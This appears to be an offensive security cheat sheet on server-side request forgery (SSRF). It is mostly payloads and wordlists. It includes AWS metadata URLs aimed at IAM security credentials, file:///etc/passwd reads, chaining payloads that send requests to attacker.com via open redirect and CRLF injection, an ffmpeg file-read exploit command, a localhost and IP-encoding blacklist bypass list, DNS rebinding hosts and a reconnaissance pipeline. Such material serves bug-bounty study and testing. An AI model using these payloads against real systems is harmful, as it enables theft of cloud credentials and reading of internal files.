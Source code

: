 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite. Payloads are at down
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG to SSRF `https://github.com/allanlw/svg-cheatsheet`

### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()

---
### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

## Payloads

```
?dest={target} 
?redirect={target} 
?uri={target} 
?path={target} 
?continue={target} 
?url={target} 
?window={target} 
?next={target} 
?data={target} 
?reference={target} 
?site={target}
?html={target} 
?val={target} 
?validate={target} 
?domain={target} 
?callback={target} 
?return={target} 
?page={target} 
?feed={target} 
?host={target} 
?port={target} 
?to={target} 
?out={target} 
?view={target} 
?dir={target}
```

## SSRF Chaining

Open redirect to SSRF 
find a file via bruteforce the URL parameter  chain with open redirect
```
example.com/ssrf.php?url=/redirect.php?url=//attacker.com
```

SSRF to CRLF:
```
example.com/ssrf.php?url=/test%0d%0aHost:%20attacker.com
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`
## Bypassing restrictions from SSRF

localhost bypass wordlist
```
https://127.0.0.1/
https://localhost/
http://[::]:80/
http://[::]:25/ 
http://[::]:22/ 
http://[::]:3128/ 
http://[0000::1]:80/
http://[0000::1]:25/ 
http://[0000::1]:22/ 
http://[0000::1]:3128/ 
localtest.me	
localh.st	
spoofed.redacted.oastify.com
company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://3232235521/
http://3232235777/
http://2852039166/
http://0177.0.0.1/
http://o177.0.0.1/
http://0o177.0.0.1/
http://q177.0.0.1/
http://0/
http://127.1
http://127.0.1
http://① ② ⑦.⓿.⓿.①
```

Bypass using enclosed alphanumerics
https://qaz.wtf/u/convert.cgi

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### DNS Rebinding

Application code has check for user input data and process if and only domain/IP is not black listed. We will bypass the blacklist with DNS rebinding.

The server will request to the DNS for the IP and it might get cached. So the rebinding host contains 2 DNS records with less TTL. so when we request for that URL multiple times some times it will point to the blacklisted IP(AWS/Localhost). Thus we bypassed the blacklist.

**Approach:** give an IP which is attacker controlled or any public which is allowed and other one is blacklisted (AWS/localhost) and generate such URL with below links.

https://lock.cmpxchg8b.com/rebinder.html
http://1u.ms/

http://make-1.2.3.4-rebind-169.254.169.254-rr.1u.ms

https://canarytokens.org/nest/


## From Wayback urls

```
cat all-inscope-domains.txt | waybackurls -dates | grep "https://" | grep "url=" | egrep -v "(.txt|.js|.svg|.jpeg|.jpg|.woff|.woff2|.eot|.css|.png|.ttf|.gif)
```